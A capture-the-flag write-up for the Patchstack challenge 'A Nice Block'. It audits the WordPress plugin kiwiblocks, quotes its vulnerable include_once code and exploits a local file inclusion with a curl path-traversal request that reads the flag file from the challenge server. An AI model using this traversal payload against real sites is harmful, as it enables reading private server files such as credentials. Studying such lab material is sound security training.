 ```yaml
---
permalink: /ctf/Patchstack-Alliance-CTF-S02E01/A-Nice-Block/index.html
title: A Nice Block - Patchstack Alliance CTF S02E01 Challenge Writeup
description: My Patchstack Alliance CTF S02E01 writeup for challenge "A Nice Block". I got 4th place in this CTF.
ogImageUrl: https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Patchstack-Alliance-CTF-S02E01/images/Pasted%20image%2020250224190052.png
---
```


# A Nice Block

<details class="toc"><summary markdown="span"><strong>Table of Contents</strong></summary>

- [Overview](#overview)
- [Background](#background)
- [Enumeration](#enumeration)
- [Exploitation](#exploitation)
- [Conclusion](#conclusion)

</details>

## Overview

- 20 solves / 100 points
- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

I like the new Gutemberg editor, so I just installed a plugin with beautiful blocks addons. That's a great plugin that perfectly matches my design needs, I don't think it could cause a security issue, right?

This is a whitebox challenge, no need to bruteforce anything (login, endpoint, etc).

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Patchstack-Alliance-CTF-S02E01/images/Pasted%20image%2020250224190052.png)

## Enumeration

**In this challenge, we can download a [file](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Patchstack-Alliance-CTF-S02E01/A-Nice-Block/attachment.zip):**
```shell
┌[siunam♥Mercury]-(~/ctf/Patchstack-Alliance-CTF-S02E01/A-Nice-Block)-[2025.02.23|16:11:08(HKT)]
└> file attachment.zip                 
attachment.zip: Zip archive data, at least v1.0 to extract, compression method=store
┌[siunam♥Mercury]-(~/ctf/Patchstack-Alliance-CTF-S02E01/A-Nice-Block)-[2025.02.23|16:11:09(HKT)]
└> unzip attachment.zip 
Archive:  attachment.zip
   creating: server-given/
  inflating: server-given/deploy.sh  
  inflating: server-given/Makefile   
   creating: server-given/challenge-custom/
 extracting: server-given/challenge-custom/flag.txt  
[...]
  inflating: server-given/Dockerfile  
  inflating: server-given/.env       
  inflating: server-given/docker-compose.yml  
```

Throughout this CTF, it's recommended that in all challenges we first look at what plugins/themes are installed. To automate this process, the challenge authors used [GNU make](https://www.gnu.org/software/make/) and [WP-CLI](https://wp-cli.org/) to set up the WordPress site. The `Makefile` located in path `server-given/docker/wordpress/toolbox/Makefile`:

```bash
    [...]
    $(WP_CLI) plugin activate kiwiblocks
```

In here, this WordPress site has installed a plugin called `kiwiblocks`, which is located in path `server-given/challenge-custom/kiwiblocks`.

To debug this plugin more effectively, I'll use a [Docker configuration from Wordfence Discord written by Ramuel](https://discord.com/channels/1197901373581303849/1199013923173712023/1199041121322537115) to debug the plugin with [Xdebug](https://xdebug.org/). 

After building and starting the Docker containers, we can `zip` the plugin and upload it to our WordPress site:

```shell
┌[siunam♥Mercury]-(~/ctf/Patchstack-Alliance-CTF-S02E01/A-Nice-Block/server-given/challenge-custom)-[2025.02.23|16:55:37(HKT)]
└> cd server-given/challenge-custom; zip -r kiwiblocks.zip kiwiblocks
  adding: kiwiblocks/ (stored 0%)
  adding: kiwiblocks/src/ (stored 0%)
  adding: kiwiblocks/src/global.js (deflated 70%)
  [...]
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Patchstack-Alliance-CTF-S02E01/images/Pasted%20image%2020250224184255.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Patchstack-Alliance-CTF-S02E01/images/Pasted%20image%2020250224184322.png)

After activating the plugin, we'll be redirected to `/wp-admin/admin.php?page=kiwiblocks`:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Patchstack-Alliance-CTF-S02E01/images/Pasted%20image%2020250224184429.png)

As the challenge's description says, this plugin has some blocks addons.

Now we can read this plugin's source code!

When I audit a plugin, I always find all the registered AJAX actions and REST API's routes. For instance, the following AJAX action `kiwiblocks_bordered`:

```php
class Kiwiblocks_Bordered extends Kiwiblocks_Block{
    [...]
    function __construct(){
        $this->name = 'bordered';
        [...]
        add_action( 'wp_ajax_kiwiblocks_' . $this->name, array( $this, 'ajaxRender' ));
        add_action( 'wp_ajax_nopriv_kiwiblocks_' . $this->name, array( $this, 'ajaxRender' ));
    }
}
```

However, none of those AJAX actions and API routes are useful to us.

Another method that I hunt for vulnerabilities is via the "[sources and sinks model](https://www.youtube.com/watch?v=ZaOtY4i5w_U)", where **sources are user inputs**, and **sinks are dangerous functions**.

After a few searches, we can see that one of many LFI (Local File Inclusion) sinks, **`include_once`**, is used in the following:

`wp-content/plugins/kiwiblocks/src/admin-panel/views/panel.php`:

```php
<?php
    [...]
    $tab = isset($_GET['tab']) ? $_GET['tab'] : 'general.php';
    try
    {
        @include_once __DIR__ . '/tabs/' . $tab;
    }
    catch(Throwable $e)
    {
        [...]
    }
```

As you can see, the source, **GET parameter `tab`**, is flow to the sink.

Also, there is no PHP code that **disallow us from directly accessing this PHP script** like the following:

```php
// Exit if accessed directly.
if ( ! defined( 'ABSPATH' ) ) {
    exit;
}
```

With that said, we found a **LFI vulnerability at path `wp-content/plugins/kiwiblocks/src/admin-panel/views/panel.php`**!

## Exploitation

Armed with the above information, we can get the flag via sending the following GET request:

```shell
┌[siunam♥Mercury]-(~/ctf/Patchstack-Alliance-CTF-S02E01/A-Nice-Block)-[2025.02.24|18:58:45(HKT)]
└> curl --get http://52.77.81.199:9100/wp-content/plugins/kiwiblocks/src/admin-panel/views/panel.php --data 'tab=../../../../../../../../../../../../flag.txt' 
<h1 class="kiwi_title">Kiwiblocks</h1>

<div class="kiwi_panel">

    CTF{TABBING_THE_TAB_0z933}
</div>
```

- **Flag: `CTF{TABBING_THE_TAB_0z933}`**

## Conclusion

What we've learned:

1. Local File Inclusion (LFI)